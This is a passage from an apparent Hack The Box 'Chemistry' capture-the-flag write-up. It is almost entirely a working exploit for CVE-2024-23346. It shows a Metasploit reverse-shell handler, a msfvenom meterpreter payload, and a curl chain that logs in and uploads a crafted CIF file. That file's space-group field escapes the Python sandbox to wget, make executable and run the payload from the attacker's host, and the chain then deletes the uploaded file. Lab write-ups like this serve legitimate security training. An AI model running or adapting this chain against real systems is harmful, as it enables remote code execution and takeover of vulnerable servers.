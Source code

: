 And on our server console we've got:
```
10.129.48.68 - - [07/Mar/2025 20:08:50] "GET / HTTP/1.1" 200 -
```
Which means that injected `wget` has been executed on target and thus it is vulnerable to [CVE-2024-23346](https://nvd.nist.gov/vuln/detail/CVE-2024-23346). We will use this vulnerability to download and execute meterpreter reverse shell. Let's start with running Metasploit `multi/handler` with `linux/x64/meterpreter/reverse_tcp` payload.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload linux/x64/meterpreter/reverse_tcp; run"
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => linux/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.212:4444
```

It's waiting for connection, so now let's create reverse shell, expose it over HTTP with our Python server and download and execute it using previously described method.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f elf \
    -o shell.cif &&\
curl -c cookies.txt -X POST -s http://chemistry.htb:5000/login -d "username=user&password=pass" > /dev/null && \
curl -b cookies.txt -X POST -s http://chemistry.htb:5000/upload -F "file=@-;filename=shell.cif" <<EOF > /dev/null && \
CIF_ID=$(curl -b cookies.txt -s http://chemistry.htb:5000/dashboard | grep View | tail -n 1 | grep -oP '(?<=/structure/)[^"]+') > /dev/null && \
curl -b cookies.txt -s http://chemistry.htb:5000/structure/$CIF_ID > /dev/null && \
curl -X POST -b cookies.txt -s http://chemistry.htb:5000/delete_structure/$CIF_ID > /dev/null

data_shell
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1):8000/shell.cif && chmod u+x shell.cif && ./shell.cif");0,0,0'
_space_group_magn.name_BNS  "P  n'  m  a'  "

EOF
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell.cif
```
